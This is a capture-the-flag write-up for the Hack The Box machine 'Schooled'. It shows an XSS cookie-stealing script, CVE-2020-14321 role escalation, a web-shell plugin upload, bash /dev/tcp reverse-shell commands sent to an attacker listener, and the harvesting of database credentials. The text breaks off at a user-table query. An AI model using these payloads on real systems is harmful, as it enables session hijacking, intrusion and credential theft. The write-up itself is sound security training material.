# Write-Up: Schooled - Medium | [Machines](../../../MACHINES.md)

>  Platform: Hack The Box\
>  OS: FreeBSD\
>  Difficulty: Medium\
>  Author: Fokos Nikolaos\
>  Completion Date: 30-07-2025\
>  Objective: Capture `user.txt` and `root.txt` flags

---

# Banner


# Summary
**Schooled** is a medium-difficulty FreeBSD machine on Hack The Box. It simulates an educational platform based on Moodle, where initial access is obtained by chaining an XSS vulnerability to steal a teacher’s session cookie, followed by an authenticated RCE via CVE-2020-14321. Post-exploitation involves MySQL enumeration and password cracking, leading to a user shell. For privilege escalation, the target leverages a misconfigured `pkg` environment and writable `/etc/hosts`, allowing the installation of a malicious FreeBSD package, ultimately leading to a root shell.

---

## Target Enumeration

### Nmap Scan
```bash
nmap -sV -sC -p- -T4 -Pn --stats-every 5s 10.129.96.53
```

#### Parameters:
- `-sV` Used to print the version of found services.
- `-sC` Used to print more details about found services.
- `-p-` Scan all ports.
- `-T4` Level of scan aggressiveness.
- `-Pn` Treat all hosts as online -- skip host discovery.
- `--stats-every 5s` Show current scan progress at a 5s interval.

We start by enumerating the target with some extra parameters, discovering potential ports outside of the "Well-Known" limits.



**Results:**
- Port 22/tcp - OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
- Port 80/tcp - Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
- Port 33060/tcp - mysqlx (MySQL X protocol listener)

---

## Web Enumeration

Browsing on the target's port 80 we find a webpage regarding online education. We have `Home`, `About`, `Teachers` and `Contact` pages. Enumerating these pages as a normal user, searching for useful information, we can detect a domain at the bottom of `Home` named `schooled.htb` along with an email address `admissions@schooled.htb`. This is probably the domain where the target is using to host the webpage.

The domain is added on `/etc/hosts`.

```bash
echo "10.129.96.53 schooled.htb" | sudo tee -a /etc/hosts
```

Moving on we can try dir busting the domain for other pages and endpoints using `diresearch` or `gobuster`.

```bash
dirsearch -u http://schooled.htb
```

or
```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://schooled.htb
```



The results show some unusual files `.hta`, `.htaccess` and `.htpasswd`, but the access to them is forbidden (403). Besides these files the rest of the page tree seems normal.

Taking our enumeration process a bit further, we use `wfuzz` to search for possible subdomains of `schooled.htb`.

```bash
wfuzz -u http://10.129.96.53 -H "Host: FUZZ.schooled.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hh 20750
```



Fuzzing the target we found an accessible subdomain named `moodle`.

We add `moodle.schooled.htb` next to `10.129.96.53 schooled.htb` to add the second domain linked with the target's IP address and can now access the page.

Browsing to `http://moodle.schooled.htb/` redirects to `/moodle`. The homepage has some courses and other functions, but the one that catches our attention is the **Log in** page.



The page allows us to create a new account or login as a guest user.

Logging in as guest, we can browse the courses but we cannot access them, we can also view information about the course's teacher but it's inaccessible without an authenticated user.

The next step is to try and create a user account using the `Create new account`.

Using dummy credentials we register to the platform to gain access to courses and teacher information.



On the next page we are required to confirm our account by pressing a button, and we finally have access to our courses.

Browsing the courses we notice that the only one we can enroll to, is Mathematics.




We press **Enrol me** to join the course. The course contains `Introduction`, `Calculus`, `Algebra` and `Geometry` sections though none is functional. There is another section `Announcements` that is functioning and we can check.

An announcement contains a reference to MoodleNet, reminding the students the requirements to join the class, but nothing else.



The webpage contains a **Personal Files** section where we can upload files, although it's unknown if we can upload and execute malicious payloads.

Continuing enumeration, we use `gobuster` on the `/moodle` endpoint at `http://moodle.schooled.htb/moodle`

```bash
gobuster dir -u http://moodle.schooled.htb/moodle/ -w /usr/share/wordlists/dirb/common.txt
```

The domain seems to have many endpoints.



Browsing `/analytics` reveals valuable files.





Inside the directories there are `.php` files that are inaccessible.

The one that stands out is `upgrade.txt` where we find Moodle's version 3.8.

Continuing the enumeration process, inside `/cache`, there is another `upgrade.txt` file reporting that Moodle 3.9 is used.





We take the enumeration process another step further, and use **ZAProxy** to understand the vulnerabilities of the page better.

```bash
sudo zaproxy
```

Using ZAP to scan `moodle.schooled.htb` we can find critical SQL injection vulnerabilities, that may grant us access as a teacher or page admin.

Trying common boolean conditions like `guest' AND '1'='1' -- ` and  `'admin OR 1=1` on the login page has no result.

Since we know what version of Moodle is running (3.9), we can search in exploitdb for known exploits.

```bash
searchsploit moodle
```



We find a remote code execution exploit (RCE) for Moodle 3.9 but requires authentication as **teacher**.

Searching on the web we find that a Moodle 3.9 RCE exploit is disclosed as **CVE-2020-14321**.

If we find a way to authenticate as a **teacher** we may be able to spawn a reverse shell, giving us access to the system.

At this point we need to enumerate further the webpage and find a way to login to the platform as **teacher**.

We can try brute-forcing the teacher's password using their name found in the announcements section and commond credentials.

Trying inputs like `manuel / 1234`, `manuel / manuel` and other common passwords, has also no result.

Searching for general Moodle 3.9 vulnerabilities, we find an XSS (Cross-Site Scripting) exploit disclosed as **CVE-2020-25627**. The vulnerability reports that the `MoodleNet profile` field on our user's profile, can be manipulated and execute malicious scripts.

With a quick inspection of our `Edit profile` page, we can see that, field `id_moodlenetprofile` accepts plain text input and there is no proper sanitization.



A mitigation solution in this case would be to add additional parameters like `pattern` to restrict the form of the input.

```html
pattern="https://.*"
inputmode="url"
```

This method though is not enough by its own, server-sided actions would be required to fully mitigate the XSS vulnerability like input escaping, validation and sanitization.

With further inspection of the page, under **Storage** > **Cookies** we notice the use of a session cookie to keep the user logged in.



---

## Exploitation

What we know at this point is enough to start exploiting our target's vulnerabilities to try and get a foothold on the system.

Having the information that the teacher checks our MoodleNet profiles, we can create a script that intercepts our teacher's session cookie.

For this purpose we can create a listener on our system and submit as a `MoodleNet profile` URL the following


```html
<script>document.information="10.10.14.186:8888/?"+document.cookie</script>
```

After a couple of seconds, we receive a response on our listener.



Next step is to replace our session cookie with the one our teacher has. 



We can browse on `http://moodle.schooled.htb/moodle` and see that now we are logged in as our math teacher.


The previously identified RCE exploit disclosed as **CVE-2020-14321**, can be used to spawn a reverse shell, using our teacher's session cookie. The exploitation script can now be executed using `python3` as follows, or perform a manual exploitation of our target, escalating our teacher's privileges from current role to **Manager** and then uploading a malicious payload that grants us RCE. In this writeup I included both methods in order to understand how the vulnerability works behind an automated script.

#### Manual Exploitation

Starting from manually exploiting our target's webpage. We managed to harvest the session cookie and login directly as our math teacher. The CVE-2020-14321 reports a vulnerability, on course enrolments, that allows privilege escalation from **Teacher** to **Manager** role. 

Inside our course **Dashboard > Participants** we find the `Enrol users` button, where we can add users to the course using their email addresses. From previous enumeration we know that Lianee Carter is a Manager.


We can intercept the GET request upon enrolling Lianee Carter using `burpsuite` through its proxy.



`burpsuite`

Inside `burpsuite`'s browser we can modify the request to change the role of Lianee Carter from **Student** to **Manager**.



All we need to edit is `userlist%5B%5D` to our teacher's ID (24) and `roletoassign` to 1 (Manager).



We send the GET request and we can see that Manuel Phillips is now a **Manager**.


We repeat the process for Lianee Carter, keeping the `userlist%5B%5D` to 25 (Lianee's ID) and `roletoassign` to 1 (Manager).


From our Administration page we can now login as Lianee Carter.



Lianee Carter's profile has an extra function called **Site administration**.



The **Site administration** allows us to install new modules, by uploading `.zip` files. The MoodleRCE repository found in the **References** section contains a malicious payload that will grant us remote code execution.



We install the plugin by pressing **Upload this file** > **Install plugin from the ZIP file**.



The plugin is successfully installed and we can now execute arbitrary code on the system.

```bash
curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```



To spawn a reverse shell we need at first to setup a listener on our system.

```bash
nc -lvnp 8888
```

Next the reverse shell command has to be converted in a proper format to be accepted as URL input.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.186/8888 0>&1'
```

We can execute the commands as parameters of the `cmd` variable used by `block_rce.php`.

```bash
curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.186/8888 0>&1'" http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php
```



We get a response on our listener and we have a reverse shell to the system!



#### Automated Exploitation

We can use the exploitation script found on `exploitdb` to automate the process of uploading a malicious payload.

```bash
python3 /usr/share/exploitdb/exploits/php/webapps/50180.py http://moodle.schooled.htb/moodle --cookie 9rhs5r7dbb3cjr0g5dnirj3icr
```

The exploit successfully runs and executes `whoami`, with output `www`.



The exploit allows us to execute our own commands using the `-c` parameter. Make sure to repeat the XSS exploit if the cookie expires.

```bash
python3 /usr/share/exploitdb/exploits/php/webapps/50180.py http://moodle.schooled.htb/moodle --cookie i6rl3mq38rrb2se2323p2i3da9 -c "bash -c 'bash -i >& /dev/tcp/10.10.14.186/8888 0>&1'"
```



After the execution of the exploit a reverse shell is spawned with access to the system!



---

## User Flag

Since we are on a FreeBSD machine, we can notice the webpage running under `/usr/local/www` instead of other common paths like `/var/www/hml`.

Trying `cd ..` throws an interesting error.



We can't access directories like `..` (previous directory) or `.` (current directory). We have to browse the system writing the full directory path each time, making our system search process a bit difficult.

Inside `/etc/passwd` we find two users `jamie`and `steve`



Changing directory to `/home` and using `ls`, confirms that we have two system users.

Searching for configuration files using full directory path in each command, we find inside `/usr/local/www/apache24/data/moodle` the file `config.php`.

This file contains the database configuration, including username and password.



Noting the credentials `moodle/PlaybookMaster2020`. Access to the database is granted, after harvesting user credentials.

```bash
mysql -u moodle -p
```

Executing the command returns a `bash: mysql: command not found` error. Searching for the `mysql` binary using `find` we spot it on `/usr/local/bin`

```bash
find / -iname mysql
```



Changing directory to `/usr/local/bin` and retrying to execute `mysql` reminds us we don't have `.` and `..` directories, and must use its absolute path. 

Before connecting to the database, we change to a more appropriate shell using `pty` to avoid any shell issues.

```bash
/usr/local/bin/python3 -c "import pty; pty.spawn('/bin/bash')"
echo $SHELL
```
Next we connect to the webpage's MySQL database.

```bash
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 moodled
```



```sql
show tables;
```

Browsing the database we find many tables but the one that interests us is `mdl_user`. The next step is to fetch `mdl_user` properties using `desc`.

```sql
desc mdl_users;
```



The three (3) fields that we focus on are `username`, `email` and `password`.

```sql
select username, email, password from mdl_user;
```

